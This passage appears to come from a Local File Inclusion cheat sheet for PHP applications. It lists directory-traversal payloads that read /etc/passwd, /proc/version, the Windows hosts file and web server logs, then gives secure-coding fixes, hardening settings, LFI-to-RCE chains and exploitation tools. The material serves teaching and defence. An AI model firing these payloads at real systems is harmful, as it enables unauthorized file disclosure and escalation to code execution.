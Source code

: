 ### Identify OS and Services

```
# Linux detection
?file=../../../etc/passwd
?file=../../../proc/version

# Windows detection
?file=..\..\..\..\windows\system32\drivers\etc\hosts
?file=C:\windows\system32\drivers\etc\hosts

# Web server detection
?file=../../../var/log/apache2/access.log
?file=../../../var/log/nginx/access.log
```

## Prevention and Remediation

### Secure Coding Practices

```php
// Input validation
$allowed_files = ['page1.php', 'page2.php', 'page3.php'];
$file = $_GET['file'];
if (in_array($file, $allowed_files)) {
    include $file;
}

// Use basename() to prevent directory traversal
$file = basename($_GET['file']);
include "/var/www/pages/" . $file;

// Whitelist approach with realpath()
$file = realpath("/var/www/pages/" . $_GET['file']);
if (strpos($file, '/var/www/pages/') === 0) {
    include $file;
}
```

### Server Configuration

- Disable dangerous PHP functions: `allow_url_include`, `allow_url_fopen`
- Use `open_basedir` restriction
- Implement proper file permissions
- Enable logging and monitoring
- Use Web Application Firewall (WAF)

## Common LFI to RCE Chains

1. **LFI → Log Poisoning → RCE**
2. **LFI → Session File Poisoning → RCE**
3. **LFI → Mail Log Poisoning → RCE**
4. **LFI → PHP Wrapper → RCE**
5. **LFI → RFI → RCE**

## Useful Tools

- **ffuf** - Fast web fuzzer
- **Burp Suite** - Web application testing
- **wfuzz** - Web application bruteforcer
- **LFISuite** - Automated LFI exploitation
- **fimap** - File inclusion mapper
- **Kadimus** - LFI exploitation tool

